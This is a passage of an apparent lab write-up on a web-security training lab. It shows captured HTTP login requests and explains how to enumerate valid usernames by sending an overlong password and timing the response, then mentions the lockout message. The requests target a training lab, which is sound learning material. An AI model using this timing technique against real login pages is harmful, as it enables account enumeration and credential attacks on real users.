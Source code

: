 ```
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0aff00f1045e59f8c111d5ee001800d8.web-security-academy.net/login
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9

username=wiener&password=peter
```

We cannot get any different response to guess a valid username but if we pass a long string in the password we will see a certain period of time delay if the username is correct.

```
POST /login HTTP/2
Host: 0aff00f1045e59f8c111d5ee001800d8.web-security-academy.net
Cookie: session=T2uFGlgC9oNUAQWuXfp9GFgVSg0IPDf2
Content-Length: 30
Cache-Control: max-age=0
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="104"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: https://0aff00f1045e59f8c111d5ee001800d8.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0aff00f1045e59f8c111d5ee001800d8.web-security-academy.net/login
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9

username=wiener&password=very_long_string_very_long_string_very_long_string_very_long_string_very_long_string_very_long_string_very_long_string_very_long_string_very_long_string_very_long_string_very_long_string_very_long_string_very_long_string_very_long_string_very_long_string_very_long_string_very_long_string...........
```

As you can see username is correct but the password is not and long string the server responded after some time and the time goes higher and higher based on how long your password string is. After three incorrect attempts, the server throws an error message.

```
You have made too many incorrect login attempts. Please try again in 30 minutes (s).
```
